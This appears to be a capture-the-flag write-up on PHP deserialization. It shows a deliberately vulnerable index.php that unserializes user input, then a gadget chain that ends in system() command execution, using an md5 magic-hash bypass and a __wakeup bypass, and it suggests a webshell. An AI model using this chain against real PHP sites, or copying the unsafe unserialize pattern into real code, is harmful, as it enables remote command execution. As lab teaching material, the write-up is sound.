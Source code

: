 # [CTF]PHP unserialize

## Content of file: index.php

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

class C
{
    public $manba;
    function __get($argv)
    {
        $want = $this->manba;
        return $want();
    }
}
class YULIN
{
    public $cmd;
    function __invoke()
    {
        system($this->cmd);
    }
    function __wakeup()
    {
        $this->cmd = "nonono";
    }
}
class T
{
    public $sth;
    function __toString()
    {
        return $this->sth->var;
    }
}

class F
{
    public $user = "what can i say";
    public $notes;
    function __construct($user)
    {
        $this->user = $user;
    }
    function __destruct()
    {
        if ((string)$this->user!=='aabg7XSs'&&md5($this->user) == md5('aabg7XSs')) {
            echo $this->notes;
        }else{
            die("N0!");
        }
    }
}

if (isset($_GET['ser'])) {
    $ser = unserialize(base64_decode($_GET['ser']));
} else {
    echo "what is the MoShuFangFa???";
}
?> what is the MoShuFangFa???
```

## CTF

### The [Magic Methods](https://www.php.net/manual/en/language.oop5.magic.php#language.oop5.magic) in PHP



### Build the malicious attack chain 

It is easy to find the relations between the functions.

```php
$Yulin = new YULIN();
$Yulin->cmd = "base64 faster.py";

$CallFunction = new C();
$CallFunction->manba = $Yulin;

$String = new T();
$String->sth = $CallFunction;

$UserCompare = new F("aabC9RqS");
$UserCompare->notes = $String;

$ser = serialize($UserCompare);
```

**Attention**: When you build the attack link successfully, be sure every argument is valid after changing the command manually, especially the length of string.(except the essential errors, such like the incorrect number of arguments to bypass the magic method `__wakeup`) It is a better choice to use arguments and webshell.
